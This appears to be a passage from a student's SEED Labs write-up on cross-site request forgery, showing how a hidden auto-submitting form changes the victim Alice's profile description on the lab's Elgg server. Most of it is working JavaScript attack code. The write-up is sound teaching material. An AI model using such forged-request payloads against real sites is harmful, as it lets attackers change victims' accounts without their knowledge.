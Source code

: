 ![request-body](./attachments/edit-profile-request.png)
In the request body, we can see how we want to construct the post request in our CSRF. Since we want to edit the briefdescription field, we only need to add that in our post request form

![request-guid](./attachments/edit-profile-guid.png)
The GUID of alice is 56, this is essential for the server to know which user is editing the profile

## Code
In the following code, I edited the relevant fields using the same request content as the `POST` request seen from above.

I also change the `p.action` to the destination address that we want to make the request to.

```javascript
function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

```